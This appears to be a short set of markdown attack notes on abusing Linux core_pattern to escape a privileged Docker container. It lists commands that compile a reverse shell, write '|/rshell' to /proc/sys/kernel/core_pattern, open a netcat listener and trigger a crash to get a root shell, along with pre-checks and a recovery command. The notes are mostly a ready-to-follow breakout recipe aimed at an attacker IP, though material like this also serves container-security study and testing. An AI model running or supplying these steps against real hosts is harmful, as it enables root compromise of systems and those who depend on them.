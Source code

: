 # Linux Core_dump abuse

- imapct
    - use root permission to excute command

- Breakout Privileged
    - all
    - (unsure)

- change reverse_shell for attacker ip address

- action
    
    (on host)
    - gcc rever_shell.c -o rshell
    - sudo cp rshell /rshell
    - docker run -it --privileged ubuntu:22.04 bash
    (another terminal)
    - doocker exec -it 123 bash
    - nc -lvp 4444
    (back to the origin terminal)
    - echo "|/rshell" > /proc/sys/kernel/core_pattern
    - sleep 100
    - _\ (ctrl + blackslash)
    
    - get shell with root permission

- check before Operation
    - ulimit -c (if appear 0 excute ulimit -c unlimited)
    - systemctl status apport

- recovery command
    - sudo sysctl --system